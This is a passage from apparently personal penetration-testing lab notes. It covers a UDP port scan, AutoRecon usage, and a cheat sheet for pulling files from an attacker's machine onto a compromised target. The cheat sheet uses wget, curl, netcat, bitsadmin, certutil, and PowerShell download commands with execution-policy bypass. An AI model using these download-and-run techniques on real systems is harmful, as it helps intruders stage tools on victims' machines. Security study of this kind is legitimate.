 Afterwards just use the below command to run / show open ports

```
perl script.pl 10.10.10.10 udp_scan.txt; cat udp_scan.txt | grep -v "?"
```

Anything showing up in the list above should be open. Of course since its UDP take it with a grain of salt.

**Automated Steps**

Download AutoRecon by Tib3rius at h[ttps://github.com/Tib3rius/AutoRecon](https://github.com/Tib3rius/AutoRecon)

```
python3 autorecon.py -ct 4 -cs 10 -o ./ IP_1 IP_2 IP_3 IP_4
```

# File Transfer Methods

These were all the helpful methods I utilized to get files from my attacking box to the target.

**Unix Transfer Methods**

```
wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go

curl http://IP_ADDR/file

fetch http://IP_ADDR/file

nc IP_ADDR PORT > OUTFILE (run nc -lvp PORT < infile on attacking machine)

ftp -s:input.txttftp -i get file /path/on/victim
```

**Windows Transfer Methods**

```
bitsadmin /transfer download /priority normal http://IP_ADDR/file C:\output\path (Works on Windows 7/Windows Server 2000+)

nc IP_ADDR PORT > OUTFILE (run nc -lvp PORT < infile on attacking machine)

ftp -s:input.txt

tftp -i get file /path/on/victim

powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile(‘http://IP_ADDR:PORT/FILE','C:\Users\user\AppData\Local\ack.exe'));}”

certutil -urlcache -split -f “http://IP_ADDR/FILE" FILENAME
```

Useful Powershell script that allows for transferring of files as well:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = “http://IP_ADDR/FILE" >> wget.ps1
echo $file = “FILE” >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <filename>
```
